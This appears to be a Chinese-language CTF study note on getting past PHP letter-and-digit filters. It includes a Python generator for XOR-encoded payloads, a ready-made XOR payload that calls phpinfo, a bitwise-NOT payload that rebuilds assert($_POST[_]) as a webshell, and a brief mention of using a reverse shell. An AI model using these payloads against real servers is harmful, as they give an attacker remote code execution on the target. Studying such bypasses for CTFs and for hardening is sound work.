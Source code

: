 #### 异或运算绕过

利用符号进行异或运算，获取想要得到的值

给出脚本

```python
target = 'phpinfo'
def generate_xor_payload(target:str):
    result1 = []
    result2 = []
    for char in target:
        found = False
        for i in range(32,127):
            if chr(i).isalnum():
                continue
            for j in range(32,127):
                if chr(j).isalnum():
                    continue
                if (i ^ j) == ord(char):
                    result1.append(chr(i))
                    result2.append(chr(j))
                    found = True
                    break
            if found:
                break
    return ''.join(result1),''.join(result2)

if __name__ == "__main__":
    part1,part2=generate_xor_payload(target)
    print(f"异或运算第一部分：{part1}")
    print(f"异或运算第二部分：{part2}")
```

phpinfo = "+(+).&/" ^ "[@[@@@@"

`?cmd = $_="+(+).&/" ^ "[@[@@@@";$_();`

直接提交有问题，+会被当空格，需要url编码

**php5   assert($\_POST['\_'])**

![image-20250809120234772](https://raw.githubusercontent.com/ssaa769/typora-images/main/typora/image-20250809120234772.png)

**php7   ``**

问题是``执行命令不回显？反弹shell

#### 取反运算绕过

```php
$_=~(%9E%8C%8C%9A%8D%8B);    //这里利用取反符号把它取回来，$_=assert
$__=~(%A0%AF%B0%AC%AB);      //$__=_POST
$___=$$__;                   //$___=$_POST
$_($___[_]);                 //assert($_POST[_]);
放到一排就是：
$_=~(%9E%8C%8C%9A%8D%8B);$__=~(%A0%AF%B0%AC%AB);$___=$$__;$_($___[_]);
```
